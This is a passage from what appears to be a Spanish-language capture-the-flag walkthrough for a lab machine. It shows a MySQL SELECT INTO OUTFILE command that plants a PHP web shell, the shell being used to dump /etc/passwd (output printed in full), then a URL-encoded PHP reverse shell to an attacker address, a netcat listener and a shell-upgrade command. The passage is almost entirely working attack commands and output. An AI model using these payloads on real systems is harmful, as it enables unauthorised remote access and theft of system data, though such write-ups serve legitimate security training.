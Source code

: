 URL = https://www.mrjamiebowman.com/hacking/command-line-mysql-for-hackers/

```mysql
SELECT "<?php echo system($_GET['cmd']); ?>" INTO OUTFILE "/var/tmp/shell.php";
```

Con esto lo que vamos hacer es crear el archivo `shell.php` en la ubicacion `/var/tmp/` la cual ya vimos en la pagina del puerto `8080`, por lo que si nos vamos a la pagina de nuevo veremos neustro archivo `.php` en la pagina por lo que haremos lo siguiente...

```
URL = http://<IP>:8080/shell.php?cmd=cat%20/etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin sshd:x:106:65534::/run/sshd:/usr/sbin/nologin avahi:x:107:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin saned:x:108:118::/var/lib/saned:/usr/sbin/nologin colord:x:109:119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin hplip:x:110:7:HPLIP system user,,,:/var/run/hplip:/bin/false dusk:x:1000:1000:dusk,,,:/home/dusk:/bin/bash systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false postfix:x:112:121::/var/spool/postfix:/usr/sbin/nologin postfix:x:112:121::/var/spool/postfix:/usr/sbin/nologin
```

Vemos que funciona, por lo que haremos lo siguiente...

```
URL = http://<IP>:8080/shell.php?cmd=php%20-r%20%27$sock=fsockopen(%22192.168.195.128%22,7777);$proc=proc_open(%22sh%22,%20array(0=%3E$sock,%201=%3E$sock,%202=%3E$sock),$pipes);%27
```

Lo que vamos hacer aqui es hacer una `Reverse Shell`...

```shell
nc -lvnp <PORT>
```

Y con esto ya estariamos con el usuario `www-data` con una shell dentro del servidor...

Ahora tendremos que sanitizar la shell...

```shell
script /dev/null -c bash
```
